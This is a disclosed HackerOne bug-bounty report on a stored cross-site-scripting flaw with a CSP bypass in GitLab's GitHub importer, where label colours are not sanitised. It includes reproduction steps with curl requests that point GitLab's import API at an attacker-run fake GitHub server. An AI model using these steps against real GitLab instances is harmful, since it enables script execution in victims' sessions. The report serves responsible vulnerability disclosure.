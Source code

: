 # Stored-XSS with CSP-bypass via labels' color

## Report Details
- **Report ID**: 1665658
- **URL**: https://hackerone.com/reports/1665658
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-08-10T15:47:55.453Z
- **Disclosed**: 2023-02-19T22:44:01.783Z

## Reporter
- **Username**: yvvdwf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Gitlab allows to import a project from Github. It imports also the labels whose colors are not sanitized. This leads to Stored-XSS. 


# Step to reproduce

To reproduce, we need the following prerequisite: 

- Github does not allow neither to create arbitrary label colors. You can find in the attachment a dummy Github server
- A VM/machine to host the dummy server above with an public IP though that gitlab.com can access to.
- I created the dummy server using nodejs, so you need to have also nodejs on the machine
- A Gitlab personal access token. Go [here](https://gitlab.com/-/profile/personal_access_tokens?name=test&scopes=api) to create a new token with within `api` scope.


# Step 1: run the dummy server

- Copy the attachment file on your machine and decompress it to any folder, e.g., `/tmp/dummy-server`
- Go to `/tmp/dummy-server` then run this command: `node ./index.js YOUR_IP YOUR_PORT` in which, you should replace `IP` and `PORT` with the one you have. For example, `sudo node index.js 51.75.74.52 80`

# Step 2: trigger Gitlab import

- Open a new terminal, then run the following command in which:

   + `YOUR_IP` and `YOUR_PORT` by the values in the previous step
   + `YOUR_GITLAB_TOKEN` is the api token you've created in the pre-requirement
   + `YOUR_GITLAB_USERNAME` is the target namespace you want to import the project to. It can be your username, or a group name

```bash
curl -kv "https://gitlab.com/api/v4/import/github" \
  --request POST \
  --header "content-type: application/json" \
  --header "PRIVATE-TOKEN: YOUR_GITLAB_TOKEN" \
  --data '{
    "personal_access_token": "ghp_aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",
    "repo_id": "523303538",
    "target_namespace": "YOUR_GITLAB_USERNAME",
    "new_name": "xss-on-label-color",
    "github_hostname": "http://YOUR_IP:YOUR_PORT"
}'
```

For example:

```bash
curl -kv "https://gitlab.com/api/v4/import/github" \
  --request POST \
  --header "content-type: application/json" \
  --header "PRIVATE-TOKEN: AAAAAAAAAAAAAYYYYabc" \
  --data '{
    "personal_access_token": "ghp_aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",
    "repo_id": "523303538",
    "target_namespace": "yvvdwf",
    "new_name": "xss-on-label-color",
    "github_hostname": "http://51.75.74.52:80"
}'
```

After finishing, you can view the list of the labels of the imported project. You should see an popup created by this js `alert(document.domain)`

An example is available here (private project): https://gitlab.com/yvvdwf/xss-on-label-color/-/labels


# Impact

Stored-XSS with CSP-bypass allows attackers to execute arbitrary actions on behalf of victims at the client side.

## Impact

Stored-XSS with CSP-bypass allows attackers to execute arbitrary actions on behalf of victims at the client side.

## Attachments
- dummy-server.tar.gz

